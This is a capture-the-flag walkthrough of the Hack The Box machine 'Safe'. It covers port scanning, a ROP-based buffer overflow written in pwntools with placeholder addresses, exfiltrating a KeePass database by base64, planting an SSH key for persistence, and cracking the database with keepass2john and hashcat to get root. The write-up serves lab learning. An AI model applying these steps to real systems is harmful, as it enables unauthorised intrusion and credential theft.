 # HTB: Safe Walkthrough

## Recon

### Nmap Scan
Identified open ports:
- **TCP 80** [HTTP](HTTP)
- **TCP 1337** (discovered via source code comment)

Performed additional scans:
```bash
nmap -sC -sV -p- 10.10.10.147
```

### Nikto Scan
Revealed default Apache page and /manual directory. A comment in the source code hinted at port 1337 and a downloadable binary (`myapp`).

## Binary Analysis (Buffer Overflow)

### Initial Test
Ran `myapp`, asked user input. Created a basic overflow with Python:
```python
print("A" * 200)
```
Submitted 200 A's and caused a crash.

### Using GDB (with peda)
- Ran `checksec`:
  - NX enabled
  - RELRO Partial
- Set follow mode: `set follow-fork-mode parent`
- Ran program with cyclic pattern from pwntools:
```python
from pwn import *
cyclic(200, n=8)
```

Used `x/xg $rsp` to get the address and determine the offset with:
```bash
pattern offset -q <value from RSP>
```
Offset identified: **120**

### Using Radare2
```bash
r2 -d myapp
[0x00000000]> aaa
[0x00000000]> afl
```
Revealed functions:
- `main` uses `/usr/bin/uptime` with a `system()` call
- `test` function contains a usable `pop r13; ret` gadget

### Using ROPgadget
Found:
- `pop r13; pop r14; pop r15; ret`

## ROP Chain Construction
- Place `/bin/sh` into memory
- Set r13 to `system@plt`
- Use gadget to pop r13, r14, r15 with dummy values
- Jump to `test()`

## Exploit Script
Local exploit with pwntools:
```python
from pwn import *
context.binary = './myapp'
p = process('./myapp')

offset = 120
pop_r13_r14_r15 = p64(0xdeadbeef)
system = p64(0xdeadbeef)
binsh = b"/bin/sh\x00"

payload = b"A" * offset
payload += pop_r13_r14_r15
payload += system
payload += p64(0x0) * 2
payload += p64(address_of_test)

p.sendlineafter("echo back?", payload)
p.interactive()
```

## Remote Exploitation
Modified above to use remote connection:
```python
p = remote('10.10.10.147', 1337)
```
Gained shell and accessed:
```bash
cat /home/user/user.txt
```

## Root Flag (KeePass)
### KeePass DB Found
- File: `MyPasswords.kdbx`
- Images: `IMG_0547.JPG`, etc.

### Exfiltration
- Base64 encoded files and copied to local machine
```bash
base64 MyPasswords.kdbx > kdbx.b64
```
- Decoded on attacker box
```bash
base64 -d kdbx.b64 > MyPasswords.kdbx
```

### SSH Key Auth Setup
- Generated RSA key pair
- Copied public key to `~/.ssh/authorized_keys`

### File Transfer
```bash
scp -i id_rsa user@10.10.10.147:IMG_0547.JPG .
```

### KeePass2John
Generated hash:
```bash
keepass2john MyPasswords.kdbx IMG_0547.JPG > hash.txt
```

### Cracking
```bash
hashcat -a 0 -m 13400 hash.txt rockyou.txt
```
Found password: `somepass123`

### Unlock DB
Used KeePassXC:
- Password: `somepass123`
- Key file: `IMG_0547.JPG`
- Retrieved: **Root password**

### Root Access
```bash
ssh -i id_rsa user@10.10.10.147
su root
```
Used KeePass creds for `root`, accessed:
```bash
cat /root/root.txt
```

## Flags
- **User:** `xxxx...`
- **Root:** `xxxx...`

## Resources
- [ROP Emporium](https://ropemporium.com/)
- [Pwntools Docs](http://docs.pwntools.com/en/stable/)
- [Keepass2John Guide](https://rubydevices.com.au/blog/how-to-hack-keepass)